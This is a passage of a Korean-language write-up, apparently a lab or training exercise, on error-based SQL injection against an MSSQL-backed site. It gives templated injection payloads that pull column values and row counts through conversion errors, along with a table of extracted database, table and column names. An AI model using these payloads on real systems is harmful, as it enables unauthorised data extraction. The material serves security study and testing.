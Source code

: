 ```sql
` or 1 in (select {Column 이름} from {Table 이름}) --
-- Table 내 특정 column 내 첫번째 값을 가져옴

` or 1 in (select {Column 이름} from {Table 이름} where num > {int}) --
-- Table 내 특정 column 내 int 번째 값을 가져옴

` or 1 in (select {Column 이름} from {Table 이름} where {Column 이름} not in ('{값1}', '{값2}', ... '{값n}')) --
-- Table 내 특정 column 내 값1,2,...,n 을 제외한 가장 앞의 값을 가져옴 (int 번째 값을 가져오지 못하는 경우)

` or 1 in (select {Column 이름} from {Table 이름} where {Column 이름} like ('%{N}%')) --
-- Table 내 특정 column 내 N 문자가 포함된 가장 앞의 값을 가져옴
```

![](../assets/2023-04-03-SQLI/5.png)

<center><b>< 그림. 5 ></b></center>

| 종류                 | 얻은 값  |
| -------------------- | -------- |
| Database name        | oyesmall |
| Table name           | post2    |
| 1st column           | postNo   |
| 2nd column           | si       |
| 3rd column           | gu       |
| 1st column, 1st data | 강남구   |

### 총 행 혹은 column 개수 구하기

```sql
` or 1 in (select 'a'+cast(count(*) as varchar(100)) from {Table 이름}) --
-- Table 내 데이터 행의 개수를 'a' 뒤에 붙여 string 으로 형변환 이후 int 형과 비교

` or 1 in (select 'a'+cast(count({Column 이름}) as varchar(100)) from {Table 이름}) --
-- Table 내 column의 개수를 'a' 뒤에 붙여 string 으로 형변환 이후 int 형과 비교
```

![](../assets/2023-04-03-SQLI/6.png)
